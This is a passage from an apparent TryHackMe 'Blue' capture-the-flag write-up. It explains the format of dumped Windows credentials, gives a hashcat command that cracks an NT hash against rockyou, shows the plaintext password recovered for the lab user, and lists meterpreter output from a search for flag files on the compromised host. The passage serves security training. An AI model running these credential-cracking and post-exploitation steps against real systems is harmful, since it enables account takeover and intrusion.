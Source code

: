 Copying it into the file, we can see how each credential is formed:

USER : RELATIVE IDENTIFIER : LM Hash : NT Hash

More info here:
[1. adshotgyan](http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html)

We can get rid of everything but the NT hash. This will allow us to crack the NT hash with Hashcat (which I couldn't run on my VM, so I used an online hash cracker) to give me:

Jon:alqfna22

From: https://breakbeforemake.tech/13656/tryhackme-blue
To actually ID the hash, you would:

1. Run it in hashid

    meterpreter> hashid -m < pass

2. Crack with Hashcat

    hashcat -m 1000 -a 0 `cat ntlm.txt` /usr/share/wordlists/rockyou.txt --force -o cracked.txt

## [Task 5] Find flags!

Find the three flags planted on this machine.
-----------------------------------------------------------------

    meterpreter > search -f *flag*
    Found 24 results...
    c:\Documents and Settings\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk (482 bytes)
    c:\Documents and Settings\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk (848 bytes)
    c:\Documents and Settings\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk (2344 bytes)
    c:\Documents and Settings\Jon\Application Data\Microsoft\Windows\Recent\flag1.lnk (482 bytes)
    c:\Documents and Settings\Jon\Application Data\Microsoft\Windows\Recent\flag2.lnk (848 bytes)
    c:\Documents and Settings\Jon\Application Data\Microsoft\Windows\Recent\flag3.lnk (2344 bytes)
    c:\Documents and Settings\Jon\Documents\flag3.txt (37 bytes)
    c:\Documents and Settings\Jon\My Documents\flag3.txt (37 bytes)
    c:\Documents and Settings\Jon\Recent\flag1.lnk (482 bytes)
    c:\Documents and Settings\Jon\Recent\flag2.lnk (848 bytes)
    c:\Documents and Settings\Jon\Recent\flag3.lnk (2344 bytes)
    c:\flag1.txt (24 bytes)
    c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk (482 bytes)
    c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk (848 bytes)
    c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk (2344 bytes)
    c:\Users\Jon\Application Data\Microsoft\Windows\Recent\flag1.lnk (482 bytes)
    c:\Users\Jon\Application Data\Microsoft\Windows\Recent\flag2.lnk (848 bytes)
    c:\Users\Jon\Application Data\Microsoft\Windows\Recent\flag3.lnk (2344 bytes)
    c:\Users\Jon\Documents\flag3.txt (37 bytes)
    c:\Users\Jon\My Documents\flag3.txt (37 bytes)
    c:\Users\Jon\Recent\flag1.lnk (482 bytes)
    c:\Users\Jon\Recent\flag2.lnk (848 bytes)
    c:\Users\Jon\Recent\flag3.lnk (2344 bytes)
    c:\Windows\System32\config\flag2.txt (34 bytes)

### 1 Flag1? (Only submit the flag contents {CONTENTS})
